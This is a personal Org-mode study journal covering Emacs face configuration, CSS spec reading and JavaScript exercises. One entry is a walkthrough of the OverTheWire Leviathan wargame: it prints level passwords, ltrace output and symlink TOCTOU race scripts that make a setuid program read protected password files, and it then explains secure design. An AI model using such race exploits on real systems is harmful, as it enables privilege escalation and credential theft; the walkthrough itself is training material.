 # -*- auto-fill-function: nil; eval: (add-hook 'after-save-hook 'org-babel-tangle nil t); -*-

Current project: [[https://github.com/rafaelbeirigo/odin-css-exercises/][Web Development Foundations Course from The Odin Project]].

* [2025-10-13 Mon]

Some [[https://overthewire.org/wargames/leviathan/][bit scrubbing]] today!

** Intro

#+begin_quote
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on

leviathan.labs.overthewire.org through SSH on port 2223.

To login to the first level use:

Username: leviathan0
Password: leviathan0

Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.
#+end_quote

** Functions

*** Automatically assemble SSH command from given user and password (C-. C-.)

#+begin_src elisp :results none
(defun hack-ctf-overthewire-dot-org-leviathan-ssh-command
    (arg user password)
  "Read USER and PASSWORD then return complete ssh command.
When ARG in non-nil do not use comman `sshpass' to automatically
send PASSWORD to `ssh'.  Apparently the first connection must be
established the old way."
  (interactive
   (list
    current-prefix-arg
    (read-string "user: "
                 "leviathan" ;; challenge's prefix
                 hack-ctf-user-history)
    (read-string "password: " nil
                 hack-ctf-password-history)))
  (let* ((challenge-subdomain "leviathan")
         (challenge-port "2223")
         (url (concat challenge-subdomain ".labs.overthewire.org"))
         (ssh-command (concat
                       (unless arg (concat "sshpass -p " password " "))
                       "ssh " url
                       " -p " challenge-port
                       " -l " user)))
    (kill-new ssh-command)
    (message "hack-ctf: ssh command copied to clipboard")
    (sleep-for 2)
    (if (and arg (yes-or-no-p "copy password to clipboard now?"))
        (kill-new password))))
(keymap-local-set "C-. C-."
                  'hack-ctf-overthewire-dot-org-leviathan-ssh-command)
#+end_src

** 0 (I /have/ the password for leviathan0 and /want/ the one for leviathan1)
leviathan0

#+begin_example
leviathan0@leviathan:~/.backup$ cat bookmarks.html
#+end_example

#+begin_example
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
#+end_example

** 1

3QJ3TgzHDq

#+begin_example
leviathan1@leviathan:~$ ll
total 36
drwxr-xr-x   2 root       root        4096 Aug 15 13:17 ./
drwxr-xr-x 150 root       root        4096 Aug 15 13:18 ../
-rw-r--r--   1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root        3851 Aug 15 13:09 .bashrc
-r-sr-x---   1 leviathan2 leviathan1 15084 Aug 15 13:17 check*
-rw-r--r--   1 root       root         807 Mar 31  2024 .profile
#+end_example

#+begin_example
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$
$ cat /etc/leviathan_pass/leviathan2
cat: /etc/leviathan_pass/leviathan2: Permission denied
$ whoami
leviathan1
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ pwd
/home/leviathan1
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
#+end_example

If I run it without ltrace, it does not drop privileges.

#+begin_example
leviathan1@leviathan:~$ ltrace ./check <------------------------------------------------------------------------------------------------------------- WITH LTRACE
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1) <------------------------------------------------------------------------------- DROPPED PRIVILEGES
$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd474, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
leviathan1@leviathan:~$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
#+end_example

** 2

NsN1HwFoyN

*** Poke

**** Successful execution

#+begin_example
leviathan2@leviathan:~$ ltrace ./printfile .profile 
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
#+end_example

**** Order of tests and calls

Previous one:

#+begin_example
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
#+end_example

This one:

#+begin_example
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
#+end_example

*** DONE Does it print the password file without tracing?  No

#+begin_example
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3 
You cant have that file...
#+end_example

*** DONE Does it get ~cat~ from PATH?  No

#+begin_example
leviathan2@leviathan:~$ export PATH=""
leviathan2@leviathan:~$ ./printfile .profile 
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
#+end_example
*** DONE Printar link mutante.  SOLVED
#+begin_example
#!/bin/bash


LEV=/etc/leviathan_pass/leviathan
LEV2=${LEV}2
LEV3=${LEV}3
L=/tmp/chaves-L
PRINTFILE=/home/leviathan2/printfile

ln -sf $LEV2 $L
$PRINTFILE $L &
ln -sf $LEV3
#+end_example

#+begin_example
leviathan2@leviathan:~$ vi /tmp/chaves.sh

---

#!/bin/bash

ln -sf /etc/leviathan_pass/leviathan2 /tmp/chaves-L
/home/leviathan2/printfile /tmp/chaves-L &
ln -sf /etc/leviathan_pass/leviathan3 /tmp/chaves-L

---

leviathan2@leviathan:~$ /tmp/chaves.sh
leviathan2@leviathan:~$ f0n8h2iWLP
#+end_example
*** ChatGPT comments

[[https://chatgpt.com/share/68ed9138-3f28-8006-ac1e-835908865878][ChatGPT]]

**** More robust TOCTOU script

#+begin_example
#!/bin/bash
# deterministic TOCTOU flipper for CTF practice only

GOOD="/home/leviathan2/.profile"   # a file RUID can read (replace with real file)
SECRET="/etc/leviathan_pass/leviathan3" # the secret you want printed
LINK="/tmp/chaves-L"
BINARY="/home/leviathan2/printfile"     # the setuid binary that does: check ACCESS then exec cat LINK

# make sure the link starts pointing to the readable file
ln -sf "$GOOD" "$LINK"

# start the target program in the background and capture its PID
"$BINARY" "$LINK" &
TARGET_PID=$!

# while the target is still alive, keep flipping the symlink
while kill -0 "$TARGET_PID" 2>/dev/null; do
  ln -sf "$GOOD" "$LINK"
  ln -sf "$SECRET" "$LINK"
done

# wait for the target to finish and print exit status
wait "$TARGET_PID"
echo "target exited with $?"
#+end_example


#+begin_example
leviathan2@leviathan:~$ /tmp/chaves.sh
f0n8h2iWLP
target exited with 0
#+end_example

**** Correct program design (how this should be prevented)

A secure program that needs to both check a user’s rights and open/use a file under another UID must avoid TOCTOU by not using separate pathname checks. Secure patterns include:

Open then verify using the opened descriptor

fd = open(path, O_RDONLY|O_NOFOLLOW);

fstat(fd, &st); Verify ownership/permissions on fd (not on path). Use fchmod/fchown/check st fields as needed. Because operations act on the already-opened descriptor, the target cannot be swapped by a symlink after open.

Use file-descriptor-based operations instead of re-resolving the pathname later (fexecve / run with fd or read from fd directly). That prevents lookup at time-of-use.

Avoid access() for security checks, because it checks current real/effective permissions against the filename and is vulnerable to TOCTOU. If the program needs to verify permissions, open the file (with the minimum privileges) and operate on the returned descriptor.

Drop privileges safely: if the program must switch to EUID to read something privileged, handle UID transitions carefully:

Temporarily set effective UID to the one that should do the check, open/lock the file descriptor, then set EUID to the other identity and use the already-open FD.

Use O_NOFOLLOW to prevent symlink abuse where appropriate.

Use kernel-level protections if available: openat2() with RESOLVE_NO_SYMLINKS (newer kernels) or seccomp / file capabilities to narrow attack surface.

In short: do the check and the use on the same resolved kernel object (the same FD), and do not re-resolve the pathname.

** 3

f0n8h2iWLP

** Seinfeld Checkmark

[[file:images/2025-10-13_seinfeld.jpeg]]

* [2025-10-12 Sun]

Today I used a good part of the sunny Sunday to do something I have been wanting to do for years: reset Org Mode font colors; it is /too/ colorful!
I get distracted just by looking at the screen, and trying to figure out the rules for the colors, and the semantics, etc; not very focus-inducing!

This is the result.

** Introduction

This has some face-related functions and settings, including the configuration of the default face for Emacs.

[[file:~/elisp/faces.el][~/elisp/faces.el]] ≡

#+begin_src elisp :tangle ~/elisp/faces.el
<<define the functions>>
<<reset the faces>>
(face-set-after-frame-default (selected-frame))
#+end_src

** Faces

*** ~default~

Reset face: all settings to default.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
(face-reset 'default)
#+end_src

*** Org

Go nuclear: Reset all Org faces.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
<<push all known Org faces into a list>>
<<reset all Org faces from that list>>
#+end_src

~<<push all known Org faces into a list>> +≡~

#+begin_src elisp :noweb-ref push all known Org faces into a list
;; Collect all org faces
(setq org-faces (seq-filter
                 (lambda (face)
                   (string-prefix-p "org-" (symbol-name face)))
                 (face-list)))
#+end_src

~<<reset all Org faces from that list>> +≡~

#+begin_src elisp :noweb-ref reset all Org faces from that list
(face-reset-list org-faces)
#+end_src

** Functions

~<<define the functions>> +≡~

#+begin_src elisp :noweb-ref define the functions
<<define a function to reset a face>>
<<define a function to reset a list of faces>>
#+end_src

*** ~face-reset~

~<<define a function to reset a face>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a face
(defun face-reset (face)
  "Sets FACE attributes to absolute and average values."
  (interactive)
  (set-face-attribute
   face
   <<FRAME>>
   <<&rest ARGS>>))
#+end_src

**** Frame

We set it to ~t~, this way new frames honor it.

#+begin_quote
If FRAME is a frame, set the FACE’s attributes only for that frame.  If
FRAME is nil, set attribute values for all existing frames, as well as
the default for new frames.  If FRAME is t, change the default values
of attributes for new frames.
#+end_quote

~<<FRAME>> +≡~

#+begin_src elisp :noweb-ref FRAME
t
#+end_src

**** ~family~ and ~foundry~

~<<&rest ARGS>> +≡~

#+begin_src elisp  :noweb-ref &rest ARGS
:family "Lat15Fixed16"
:foundry "PfEd"
#+end_src

**** ~width~ and ~height~

#+begin_quote
Note that for the ‘default’ face, you must specify an absolute height (since there is nothing for it to be relative to).
#+end_quote

This height was being used before I started working.
I am not sure what it means, or how it is calculated.

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:width 'normal
:height 128
#+end_src

**** ~weight~ and ~slant~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:weight 'medium
:slant 'normal
#+end_src

**** ~foreground~ and ~background~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:foreground "dark gray"
:background "black"
#+end_src

**** Decorations

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:underline nil
:overline nil
:strike-through nil
:box nil
#+end_src

**** ~inverse-video~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:inverse-video nil
#+end_src

**** ~stipple~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:stipple nil
#+end_src

**** ~extend~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:extend nil
#+end_src

**** ~font~

Don't see the need for this.

~<<&rest ARGS>> +≡~

**** ~inherit~

#+begin_src elisp :noweb-ref &rest ARGS
:inherit nil
#+end_src

*** ~face-reset-list~

~<<define a function to reset a list of faces>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a list of faces
(defun face-reset-list (face-list)
  "Apply function `face-reset' to a list of faces."
  (interactive)
  ;; Lists of faces usually are automatically obtained by taking all symbols
  ;; from a context with "face" in their names.  But surprisingly this is not an
  ;; infallible approach.  Then we ignore any errors here.  This is not bad,
  ;; because we only ignore---and do not-reset---the ones that are _not_ faces.
  (ignore-errors
    (dolist (face face-list)
      (face-reset face))))
#+end_src


** Seinfeld Checkmark

[[file:images/2025-10-12_seinfeld.jpeg]]

* [2025-10-11 Sat]

Productive day.
But only because learned about my limitations while struggling to get results.
Learned a lot!

** Seinfeld Checkmark

[[file:images/2025-10-11_seinfeld.jpeg]]

* [2025-10-10 Fri]

Well, I'm pursuing some CTF goals.
Totally derailed.
But, I am investigating my core reasons to program.
The burn out happened because of lack of this.

Nice.

** Seinfeld Checkmark

[[file:images/2025-10-10_seinfeld.jpeg]]

* [2025-10-09 Thu]

** Back to Odin

Now that I had a taste of the "ground truth" (official specs), I feel more confident about navigating the uncertainties and vagueness of the world.
Also, Wikipedia has a lot of good resources on alternatives to The Box Model...
I probably need to improve my Google-fu.

I feel that I tend to underestimate CSS.
I've been thinking about this.
Webdev is HTML, CSS, and JS.
Instinctively, I think: JS is harder than HTML, that is harder than CSS.
But this is not the case---at least for me.
CSS has lots of intellectual demands:
- The official docs are declarative: they don't teach how to implement, but what they want as a result (from the browser implementers).
  This removes a lot of pressure that is usually present when defining a language (like JS and even HTML).
  The documentation is more vague, there are lots of exceptions.
  And what trips me up the most is the terminology.
  It all started in CSS1 with
  - For the background: ~background-color~
  - For the foreground: ~color~ (!)


This list goes on and on.
I belive it stems from the fact that the people involved with the development of CSS have a different mindset than what I'm used to when dealing with tech specs.
And this is probably good, because they are also developing an aspect that is normally difficult for programmers: make things look good.
And I've seen what CSS can do, and it's great.
Also, I've seen the latest developments in layout---this is what made me go to the specs, I couldn't believe The Box Model could be a thing they would settle on---and thank God they didn't!
During this journey I learned a lot about realistic expectations on webdev and stuff---including my own capabilities and limits.
The most important thing was to see that when I go slowly on a CSS exercise things tend to flow better, and quicker.
My initial impulse is to underestimate and get frustrated with the delay, lack of info... when I could just stop, take a deep breath, and dedicate some time to think.

Another curious development: my inner artist is coming out, sniffing the territory, and I catch myself sometimes thinking about ideas for websites.
This is cool!

** Seinfeld Checkmark

[[file:images/2025-10-09_seinfeld.jpeg]]

* [2025-10-08 Wed]

** CSS1 Standard

See how things evolved is good when there is so much confusion in the terminology.

The margin collapse from the Box Model makes sense for typography, not graphics layout.
It was introduced at a time where you /maybe/ would add a picture to a page; a time where the page was thought as a /book/ or /newspaper/ page (but without ads, comic strips or other elements demanding a more sophisticated and precise layout engine).

It was also the /first/ major attempt at adding styles to a page.
/Style/ at that time was mainly choosing the text font, and color; background color or image.
And back then, many users had only access to text terminals, so the important part of the page for them was mainly the text, and its structure.

I keep going back and forth from the specs to ChatGPT.
ChatGPT is great to teach me about the historical context.
It also makes great parallels with newer versions, points out things that have changed over time.
And it agrees with me about the quirks---but also often gives plausible motivations at the time for the quirks.

I just found out that modern alternatives like Flex and Grid do not collapse margins.
Thank God for them.
But this is not screamed all over the web tutorials as I believe it should be.
Advices like:

#+begin_quote
Avoid using the box model for layout, use the flex model instead.
#+end_quote

Just finished reading it.
Very nice.
Lots of quirks.

The one thing I really think would be useful is: when setting a property valeu, being able to reference the /current/ value.
For instance: If I want to make the first letter of a paragraph twice as big, I could say something like:

#+begin_src css
p::first-letter {
  font-size: calc(current * 2);  /* or  '2*'  */
}
#+end_src

Or if I wanted it to be 10 pixels bigger:

#+begin_src css
p::first-letter {
  font-size: calc(current + 10px);
}
#+end_src

** CSS2.1 Standard

It mentions "webmasters" LOL.

Starts talking about JavaScript.

** Seinfeld Checkmark

[[file:images/2025-10-08_seinfeld.jpeg]]

* [2025-10-07 Tue]

** CSS has some obscurities

The first one just appeared: The Box Model.
I'll try and be systematic here.

Reading CSS Standar Box Model.
https://www.w3.org/TR/css-box-3/

Again, much better.
Tutorials and books are hesitant about terminology and analogies.
Better go to the source.

First small joy: yes, everything in CSS is either a *box* or a *text sequence*.
CSS has its own tree, the *box tree*, derived from the DOM.

[[file:pages/css2.1-margins-padding-border.html][pages/css2.1-margins-padding-border.html]] ≡

#+begin_src html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Examples of margins, padding, and borders</TITLE>
    <STYLE type="text/css">
    </STYLE>
    <link rel="stylesheet" href="css2.1-margins-padding-border-experiments.css">
  </HEAD>
  <BODY>
    
    <div class="ul">
      <UL>
        <div class="li">
          <LI >First element of list
        </div>
        <div class="li">
          <LI class="withborder">Second element of list is a bit longer to illustrate wrapping.
        </div>
      </UL>
      <p class="undecided-p">Is this a paragraph or a list item?</p>
    </div>
  </BODY>
</HTML>
#+end_src

** I started reading CSS1 specs

Very enlightening.
Using ChatGPT to answer questions; usualy involve historical quirks.

** 1h coding

Today I really spent most of the time on the specs.
I also did lots of free explorations on the Dev Tools in Firefox, with the help of ChatGPT.
I'm counting those as coding; all in all, I feel today's work granted me that.

** Seinfeld Checkmark

[[file:images/2025-10-07_seinfeld.jpeg]]

* [2025-10-06 Mon]

** Odin Foundations Course

Started reding the theory for The Box Model.

Went do MDN and ChatGPT for clarifications.

Downloading some CSS books for reference.

Just read some chapters of some CSS books.
Nice to see they have much more structure than several online resources---editorial pressure, probably.

Now, I need to *practice*.

** Burn out WARNING

Today I studied too much, didn't go busking, and didn't properly rest.

I'll work on my 1h coding now, and then rest.

** 1h of Hack!

I'll experiment with LP.
Two code blocks: HTML and JS.

First we tangle.

[[file:~/dev/js-ChatGPT/2025-10-06.html][~/dev/js-ChatGPT/2025-10-06.html]] ≡

#+begin_src html :tangle ~/dev/js-ChatGPT/2025-10-06.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>

  <body>
    <dl>
      <<html>>
    </dl>

    <script>
      <<js>>
    </script>
  </body>
</html>
#+end_src

*** Minute 40–50: Keyboard events
Now the task:
#+begin_quote
Minute 40–50: Keyboard events
16. Add a <p> that shows which key the user presses (keydown event).
Learn: event.key.
#+end_quote

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Keyboard Events</dt>
<dd><p id="pKeyPress"></p></dd>
#+end_src

~event.key~

Need to add an event listener.
Will add it to ~window~.

~<<js>> +≡~

#+begin_src js :noweb-ref js
const pKeyPress = document.getElementById("pKeyPress");
window.addEventListener("keydown", (e) => {
    pKeyPress.textContent = e.key;
})
#+end_src

*** Minute 50–60: Mini-project — Guess the Number

#+begin_quote
Minute 50–60: Mini-project — Guess the Number
17. Build a simple game:

Generate a random number between 1 and 10.

Add an <input> and a button.

User guesses the number. Show “Too high”, “Too low”, or “Correct!”.
Learn: combining input, random, conditionals, and DOM updates.
#+end_quote

Add the controls.
Will use a ~dl~.

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Guess the number</dt>
<dd>Enter a number between 1 and 10</dd>
<dd><input id="inputGuessNumber" type="text"><button id="buttonGuessNumber">Go!</button></dd>
<dd>Result:</dd>
<dd id="ddGuessNumberResult"></dd>
#+end_src

Create a function to choose a random number between 1 and 10.

~<<js>> +≡~

#+begin_src js :noweb-ref js
<<allow user to press Enter instead of clicking the button>>
let number = Math.floor(Math.random() * 10) + 1;
const ddGuessNumberResult = document.getElementById("ddGuessNumberResult");
document.getElementById("buttonGuessNumber")
    .addEventListener("click", () => {
        let guess = Number(document.getElementById("inputGuessNumber").value);
        if (guess < number) {
            ddGuessNumberResult.textContent = "Too low";
        } else {
            if (guess > number) {
                ddGuessNumberResult.textContent = "Too High";
            } else {
                ddGuessNumberResult.textContent = "Correct!";
            }
        }
    });
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-06_seinfeld.jpeg]]

* [2025-10-05 Sun]

** web.dev HTML Course

Going over the curriculum again, this time specifically to know which *projects* it has.

** ~hr~

Thematic changes.
The Standard says ~section~ and ~hr~ have some "equivalences"---let's experiment with them.

[[file:~/dev/webdev-study/pages/hr.html][~/dev/webdev-study/pages/hr.html]] ≡

#+begin_src html :tangle pages/hr.html :mkdirp yes
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;hr&gt;</title>
  </head>

  <body>
    <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <hr>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <hr>

    <section>
      <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

      <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>
    </section>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>
  </body>
</html>
#+end_src

Visually, there's no explicit "equivalence"; maybe we need some CSS for that.

** ~pre~

[[file:pages/pre.html][pages/pre.html]] ≡

#+begin_src html :tangle pages/pre.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;pre&gt;</title>
  </head>

  <body>
    <h1>The <code>&lt;pre&gt; element</code></h1>
    <h2>Just <code>&lt;pre&gt;</code></h2>
    <pre>
      function greet(name) {
        console.log(`Hello, ${name}`);
      }
    </pre>

    <h2><code>&lt;pre&gt;&lt;code&gt;&lt;code&gt;&lt;pre&gt;</code></h2>
    <pre>
      <code>
        function greet(name) {
          console.log(`Hello, ${name}`);
        }
      </code>
    </pre>
  </body>
</html>
#+end_src

Both use monospaced fonts.

** ~kbd~

[[file:pages/kbd.html][pages/kbd.html]] ≡

#+begin_src html :tangle pages/kbd.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <pre><samp>You are in an open field west of a big white house with a boarded
front door.
There is a small mailbox here.

